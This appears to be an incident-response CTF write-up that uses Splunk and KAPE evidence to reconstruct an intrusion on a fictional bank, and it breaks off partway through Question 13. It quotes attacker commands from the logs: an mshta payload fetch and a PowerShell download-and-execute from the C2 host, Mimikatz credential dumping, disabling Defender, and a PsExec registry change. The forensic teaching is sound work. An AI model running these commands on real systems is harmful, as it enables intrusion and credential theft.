# Zero Tolerance — CTF Writeup

---

## Scenario Overview

VaultSecure Banking — a regional bank with 2 million customers — was onboarded to ProbablyFine Ltd.'s managed security monitoring. Within 4 hours of going live, a critical alert fired for suspicious persistence on an endpoint. The investigation uses Splunk (Windows Event Logs, Sysmon, PowerShell logs) and a KAPE triage collection to reconstruct a full attack chain: LNK-based initial access → C2 beaconing → credential dumping → lateral movement → data collection and staging.

---

## Attack Chain Overview

```
[1] Initial Access (JP-BROWN-WS)
    └─ LNK file: TravisClart_Resume.pdf.lnk (T1204.002)
    └─ LOLBin: mshta.exe executes embedded HTA payload

[2] C2 Establishment
    └─ RuntimeBroker.exe → 10.10.14.174 (beaconing)

[3] Persistence
    └─ HKCU\...\Run\SystemMonitor registry key

[4] Defense Evasion
    └─ DisableRealtimeMonitoring → Defender weakened

[5] Credential Access
    └─ Invoke-Mimikatz -DumpCreds

[6] Lateral Movement (→ BKUP-SRV01 / 10.10.152.240)
    └─ PsExec64.exe (PID: 6612)
    └─ RDP session at 2025-11-14 05:19:42

[7] Collection & Staging
    └─ Setup-BackupServer.ps1 collects 16 file types
    └─ Compressed → sysbackup_20251114.dat
```

---

## Question 1 — What is the hostname where Initial Access occurred?

### Splunk Query

```spl
index=* source="WinEventLog:Microsoft-Windows-Sysmon/Operational" host="JP-BROWN-WS"
Image!="*splunk*"
| stats count by CommandLine host
| sort 0 count
| head 50
```

### Investigation

The query pivots on the primary alert host. Reviewing process creation events on `JP-BROWN-WS` confirms this is the beachhead — the origin of all initial malicious activity including the LNK execution and subsequent C2 beacon.

**Answer:**

```
JP-BROWN-WS
```




---

## Question 2 — What MITRE ATT&CK sub-technique ID describes the initial code execution method?

### Investigation

The initial access vector was a malicious **LNK file** (Windows Shortcut) disguised as a PDF resume. When a user double-clicks a `.lnk` file, Windows executes its embedded target command — in this case, `mshta.exe` with a malicious HTA payload. This maps directly to:

| Level | ID | Name |
|---|---|---|
| Technique | T1204 | User Execution |
| **Sub-technique** | **T1204.002** | **Malicious File** |

The attacker relied on the victim (`jp.brown`) opening what appeared to be a legitimate resume PDF from the Downloads folder.

**Answer:**

```
T1204.002
```


---

## Question 3 — What is the full path of the malicious file that led to Initial Access?

### Investigation

The investigation used a **two-step approach** combining KAPE artifacts and Splunk:

**Step 1 — KAPE Artifact (SQLite Viewer):**

Chrome's `History` SQLite database from the KAPE triage collection was loaded into **SQLite Viewer** (`inloop.github.io/sqlite-viewer/`). Querying the `downloads` table revealed:

```
id: 6
current_path: C:\Users\jp.brown\Downloads\TravisClart_Resume.zip
start_time:   13407570265453504
total_bytes:  851
```

This confirmed `jp.brown` downloaded a ZIP file disguised as a resume.



**Step 2 — Splunk Correlation:**

```spl
index=* *TravisClart_Resume*
```

The Splunk results returned 6 events. The key event:

```
Image:           C:\Program Files\7-Zip\7zG.exe
TargetFilename:  C:\Users\jp.brown\Downloads\TravisClart_Resume.pdf.lnk
CreationUtcTime: 2025-11-14 05:04:42.017
User:            JP-BROWN-WS\jp.brown
Host:            JP-BROWN-WS
```

**Attack flow confirmed:**
- `jp.brown` downloaded `TravisClart_Resume.zip` via Chrome
- `7-Zip` (`7zG.exe`) extracted the archive → revealing `TravisClart_Resume.pdf.lnk`
- The double extension (`.pdf.lnk`) disguises the LNK file as a PDF document
- `jp.brown` double-clicked what appeared to be a resume PDF → triggering `mshta.exe`

**MITRE ATT&CK:** T1204.002 — User Execution: Malicious File | T1036.007 — Double File Extension

**Answer:**

```
C:\Users\jp.brown\Downloads\TravisClart_Resume.pdf.lnk
```


---

## Question 4 — What is the full path to the LOLBin abused for Initial Access?

### Splunk Query

```spl
index=* source="WinEventLog:Microsoft-Windows-Sysmon/Operational" host="JP-BROWN-WS"
Image!="*splunk*"
| stats count by CommandLine
| sort 0 count
| head 50
```

### Investigation

The LNK file's embedded target command spawned `mshta.exe` (Microsoft HTML Application Host) — a legitimate Windows binary that can execute arbitrary VBScript/JScript/HTML code. This is a well-documented LOLBin abuse technique:

```
mshta.exe http://10.10.14.174/payload.hta
```

`mshta.exe` is trusted by Windows and many security products, making it an effective defense evasion vehicle for code execution.

**MITRE ATT&CK:** T1218.005 — Signed Binary Proxy Execution: Mshta

**Answer:**

```
C:\Windows\System32\mshta.exe
```


---

## Question 5 — What is the IP address of the attacker's C2 server?

### Splunk Query

```spl
index=* source="WinEventLog:Microsoft-Windows-Sysmon/Operational" host="JP-BROWN-WS"
Image!="*splunk*"
| stats count by CommandLine
| sort 0 count
| head 50
```

### Investigation

Network connection events (Sysmon Event ID 3) from `JP-BROWN-WS` show outbound connections from the malicious beacon process to a single external IP. The C2 callback pattern — periodic beaconing at regular intervals — confirms Command & Control activity.

**MITRE ATT&CK:** T1071.001 — Application Layer Protocol: Web Protocols

**Answer:**

```
10.10.14.174
```


---

## Question 6 — What is the full path of the process responsible for C2 beaconing?

### Splunk Query

```spl
index=* source="WinEventLog:Microsoft-Windows-Sysmon/Operational" host="JP-BROWN-WS"
Image!="*splunk*"
| stats count by CommandLine
| sort 0 count
| head 50
```

### Investigation

The beacon process was identified by correlating Sysmon network connection events (Event ID 3) with the parent process path. The attacker chose the name `RuntimeBroker.exe` — a legitimate Windows process name — and placed the malicious binary in `C:\Windows\Temp\` to masquerade as the real Runtime Broker process.

**MITRE ATT&CK:** T1036.005 — Masquerading: Match Legitimate Name or Location

**Answer:**

```
C:\Windows\Temp\RuntimeBroker.exe
```


---

## Question 7 — What is the full registry path modified for persistence?

### Splunk Query

```spl
index=* source="WinEventLog:Microsoft-Windows-Sysmon/Operational" host="JP-BROWN-WS"
Image!="*splunk*"
| stats count by CommandLine
| sort 0 count
| head 50
```

### Investigation

Sysmon Event ID 13 (Registry Value Set) captured the persistence mechanism. The attacker wrote to the **Run** registry key under the current user hive — causing the malicious `RuntimeBroker.exe` to execute automatically at every user logon:

```
Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
Value Name: SystemMonitor
Value Data: C:\Windows\Temp\RuntimeBroker.exe
```

Using `HKCU` (current user) rather than `HKLM` (local machine) means the persistence does not require administrator privileges — only user-level access.

**MITRE ATT&CK:** T1547.001 — Boot or Logon Autostart Execution: Registry Run Keys

**Answer:**

```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\SystemMonitor
```


---

## Question 8 — What tool and parameter did the threat actor use for credential dumping?

### Splunk Query

```spl
index=* source="WinEventLog:Microsoft-Windows-Sysmon/Operational" host="JP-BROWN-WS"
Image!="*splunk*"
| stats count by CommandLine
| sort 0 count
| head 50
```

### Investigation

PowerShell execution logs captured the credential dumping command in the CommandLine field. The attacker used **Invoke-Mimikatz** — a PowerShell port of the Mimikatz credential dumping tool — with the `-DumpCreds` parameter to extract LSASS memory credentials:

```powershell
Invoke-Mimikatz -DumpCreds
```

This extracts NTLM hashes, Kerberos tickets, and (if WDigest is enabled) plaintext passwords from LSASS memory — providing the credentials needed for lateral movement.

**MITRE ATT&CK:** T1003.001 — OS Credential Dumping: LSASS Memory

**Answer:**

```
Invoke-Mimikatz -DumpCreds
```


---

## Question 9 — What specific parameter did the threat actor use to weaken endpoint defenses?

### Splunk Query

```spl
index=* source="WinEventLog:Microsoft-Windows-Sysmon/Operational" host="JP-BROWN-WS"
Image!="*splunk*"
| stats count by CommandLine
| sort 0 count
| head 50
```

### Investigation

The attacker executed a PowerShell command to disable Windows Defender's real-time protection before running Mimikatz — preventing Defender from detecting and quarantining the credential dumping tool:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

**MITRE ATT&CK:** T1562.001 — Impair Defenses: Disable or Modify Tools

**Answer:**

```
DisableRealtimeMonitoring
```


---

## Question 10 — What is the PID of the process that initiated the remote execution?

### Splunk Query

```spl
index=* source="WinEventLog:Microsoft-Windows-Sysmon/Operational" host="JP-BROWN-WS"
Image!="*splunk*"
CommandLine="PsExec64.exe  \\\\10.10.152.240 cmd /c \"reg add HKLM\\System\\CurrentControlSet\\Control\\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f\""
```

### Investigation

Targeting the exact PsExec command used for remote execution on `10.10.152.240` (BKUP-SRV01), Sysmon Event ID 1 (Process Creation) records the PID of the initiating process. The command used PsExec to enable restricted admin mode on the target host — a prerequisite for Pass-the-Hash RDP authentication:

```
CommandLine: PsExec64.exe \\10.10.152.240 cmd /c "reg add HKLM\System\...\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f"
PID: 6612
```

**MITRE ATT&CK:** T1569.002 — System Services: Service Execution (PsExec)

**Answer:**

```
6612
```




---

## Question 11 — At what time did the attacker successfully log in to the remote system?

### Splunk Query

```spl
index=* source="WinEventLog:Microsoft-Windows-Sysmon/Operational" host="JP-BROWN-WS"
Image!="*splunk*" EventCode=3 RuleName=RDP DestinationIp="10.10.152.240"
```

### Investigation

Sysmon Event ID 3 (Network Connection) with `RuleName=RDP` captures the successful RDP connection to `10.10.152.240` (BKUP-SRV01). The timestamp of the first successful RDP network connection event:

```
EventCode: 3 (Network Connection)
RuleName: RDP
Destination IP: 10.10.152.240
Timestamp: 2025-11-14 05:19:42 UTC
```

**MITRE ATT&CK:** T1021.001 — Remote Services: Remote Desktop Protocol

**Answer:**

```
2025-11-14 05:19:42
```


---

## Question 12 — What is the full path of the PowerShell script used for data collection?

### Splunk Query

```spl
index=* source="WinEventLog:Microsoft-Windows-Sysmon/Operational" host="BKUP-SRV01"
Image!="*splunk*"
| stats count by CommandLine
| sort 0 count
| head 50
```

### Investigation

Pivoting to the lateral movement target (`BKUP-SRV01`) and reviewing process creation events reveals the exact download-and-execute command used by the attacker. The highlighted entry from the Splunk results:

```powershell
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -exec bypass -c
"Invoke-WebRequest -Uri 'http://10.10.14.174:80/Setup-BackupServer.ps1'
-OutFile 'C:\Windows\Temp\Setup-BackupServer.ps1';
& 'C:\Windows\Temp\Setup-BackupServer.ps1'"
```

The attacker downloaded the collection script directly from the C2 server (`10.10.14.174:80`) to `C:\Windows\Temp\` and immediately executed it in the same command — minimizing the window for detection.

> **Note:** This question also required prior KAPE artifact analysis. Before pivoting to Splunk, the Chrome browser history SQLite database from the KAPE collection was analyzed using **SQLite Viewer** (`inloop.github.io/sqlite-viewer/`). The `downloads` table in Chrome's `History` file revealed the initial ZIP download:
>
> | id | current_path | start_time |
> |---|---|---|
> | 6 | `C:\Users\jp.brown\Downloads\TravisClart_Resume.zip` | 13407570265453504 |
>
> This confirmed the delivery mechanism — a ZIP file containing the malicious LNK — and established `jp.brown` as the targeted user, directing the investigation toward `JP-BROWN-WS` as the beachhead.

**MITRE ATT&CK:** T1005 — Data from Local System | T1059.001 — PowerShell | T1105 — Ingress Tool Transfer

**Answer:**

```
C:\Windows\Temp\Setup-BackupServer.ps1
```


---

## Question 13 — What are the first four file extensions targeted by the script?

### Investigation (Script Analysis)

Static analysis of `Setup-BackupServer.ps1` reveals the `$extensions` array at the top of the script — listing all 16 targeted file types in order:

```powershell
$extensions = @(
    '*.bak',    # ← 1st
    '*.backup', # ← 2nd
    '*.sql',    # ← 3rd
